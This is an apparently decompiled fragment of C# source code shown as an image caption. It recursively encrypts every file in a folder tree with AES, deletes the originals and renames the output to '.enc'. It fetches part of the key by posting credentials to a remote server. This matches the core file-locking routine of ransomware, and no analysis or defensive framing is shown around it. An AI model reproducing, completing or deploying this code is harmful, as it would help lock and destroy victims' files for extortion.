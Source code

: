 ```csharp
				}
			}
			foreach (string nfolder in Directory.GetDirectories(folder))
			{
				Y.encryptFolder(nfolder, compKey, iv);
			}
		}

		private static byte[] ComputeCompositeKey(string dkey, string skey, string folder, string timestamp)
		{
			string text = dkey + skey + folder + timestamp;
			byte[] array;
			using (SHA256 sha = SHA256.Create())
			{
				array = sha.ComputeHash(Encoding.ASCII.GetBytes(text));
			}
			return array;
		}

		private static void EncryptFile(string f, byte[] k, byte[] i)
		{
			string text = f + ".tmp";
			string text2 = f + ".enc";
			using (FileStream fileStream = new FileStream(f, FileMode.Open, FileAccess.Read))
			{
				using (FileStream fileStream2 = new FileStream(text, FileMode.Create, FileAccess.Write))
				{
					using (Aes aes = Aes.Create())
					{
						aes.Key = k;
						aes.IV = i;
						ICryptoTransform cryptoTransform = aes.CreateEncryptor(aes.Key, aes.IV);
						using (CryptoStream cryptoStream = new CryptoStream(fileStream2, cryptoTransform, CryptoStreamMode.Write))
						{
							fileStream.CopyTo(cryptoStream);
						}
					}
				}
			}
			File.Delete(f);
			File.Move(text, text2);
		}

		private static async Task<string> getDynamicKey(string baseUrl, string username, string password)
		{
			string text;
			try
			{
				using (HttpClient client = new HttpClient())
				{
					var loginData = new { username, password };
					string json = JsonConvert.SerializeObject(loginData);
					StringContent content = new StringContent(json, Encoding.UTF8, "application/json");
					HttpResponseMessage httpResponseMessage = await client.PostAsync(baseUrl + "/login", content);
					HttpResponseMessage loginResponse = httpResponseMessage;
					httpResponseMessage = null;
					if (!loginResponse.IsSuccessStatusCode)
```